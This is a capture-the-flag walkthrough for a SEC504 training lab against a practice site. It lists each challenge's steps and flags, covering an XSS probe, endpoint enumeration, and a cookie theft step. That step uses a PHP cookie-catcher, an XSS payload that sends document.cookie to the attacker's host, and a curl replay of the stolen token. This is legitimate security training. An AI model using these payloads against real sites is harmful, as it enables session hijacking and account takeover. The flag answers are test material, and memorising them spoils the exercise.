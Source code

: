 # SEC504 Ranges.io CTF - Walkthrough

This document contains my step-by-step solutions for the **www.issplaylist.com** section challenges. 
Each section includes **question**, **steps taken**, and **answer/flag**.

---

## Contact
**Question:** 
Interact with the contact form on the www.issplaylist.com website. What is the flag returned as the reference number?

**Steps Taken:**
1. Navigated to <https://www.issplaylist.com/contact.html>.
2. Typed `Mike` in the first name form box and clicked **Submit**.
3. The response page displayed the flag.

**Answer:** 
`NetWars{ReceivedSubmission}`

---

## Vulnerability Discovery
**Question:** 
Explore the Contact page on the www.issplaylist.com website to identify a vulnerability. Identify the type of vulnerability.

**Steps Taken:**
1. Navigated to <https://www.issplaylist.com/contact.html>.
2. First tested **command injection** in all form fields to check for interesting errors; none were found.
3. Next tested **Cross-Site Scripting (XSS)** since other attack types didn’t fit the page’s functionality. Submitted:
   ```html
   Mike<script>alert(1)</script>
   ```
   The First Name field immediately triggered an alert, confirming XSS.

**Answer:** 
`Cross-Site Scripting`

---

## Information Gathering
**Question:** 
Identify the hidden page on the www.issplaylist.com server. Submit the page name (XXXXX.html).

**Steps Taken:**
1. Enumerated website endpoints using **ffuf**:
   ```bash
   ffuf -w common.txt -u https://www.issplaylist.com/FUZZ -s -mc 200,301
   ```
2. The following endpoints were found: `admin`, `images`, `index.html`, `res`.
3. Tested each endpoint:
   - `images` and `res` → Forbidden
   - `index.html` → Accessible (main page)
   - `admin` → Accessible (hidden admin page)
4. Alternative method with **Nmap** script scan:
   ```bash
   nmap -n --script=http-enum www.issplaylist.com
   ```

**Answer:** 
`admin.html`

---

## Cookie Theft
**Question:** 
Administrators for the www.issplaylist.com site frequently examine the contact page submissions using their browsers. Exploit the site vulnerability to steal cookie content from the administrator. What is the name of the cookie used to authenticate administrative users?

**Steps Taken:**
1. Used the course cookie catcher lab script (slightly modified) to log inbound requests:

   ```php
   <?php
   // Build log entry
   $data = [
       'GET'     => $_GET,
       'POST'    => $_POST,
       'headers' => function_exists('getallheaders') ? getallheaders() : [],
   ];

   // Convert to JSON
   $json = json_encode($data, JSON_UNESCAPED_SLASHES | JSON_PRETTY_PRINT);

   // Append to cookies.log
   file_put_contents("cookies.log", $json . PHP_EOL, FILE_APPEND);

   // (Optional) If running via CLI SAPI, also print to stdout
   if (defined('STDOUT')) {
       fwrite(STDOUT, $json . PHP_EOL);
   }

   // Send no content back to browser
   http_response_code(204);
   exit;
   ?>
   ```

2. Started a listener:
   ```bash
   php -S 0.0.0.0:8080
   ```

3. Exploited the XSS in the First Name field to exfiltrate the cookie:
   ```html
   Mike<script>document.location="http://10.142.148.3:8080/" + document.cookie</script>
   ```

4. Monitored the terminal and `cookies.log` for the incoming request from the admin’s browser to identify the authentication cookie name.

5. *Cookie name captured in `cookies.log` after the admin views the submission (record from the exfiltrated request).* In my case it was `/authtoken=0f186582606b62965d90e772e76a8a5620b11af9`

**Answer:** 
`authtoken`

---

## Unauthorized Access
**Question:** Use the stolen cookie to access the admin page. Submit the flag.

**Steps Taken:**
1. Using the command line, `curl -k -b "authtoken=0f186582606b62965d90e772e76a8a5620b11af9" https://www.issplaylist.com/admin.html | grep -i NetWars`

**Answer:**
`NetWars{CongratsAdmin}`

---
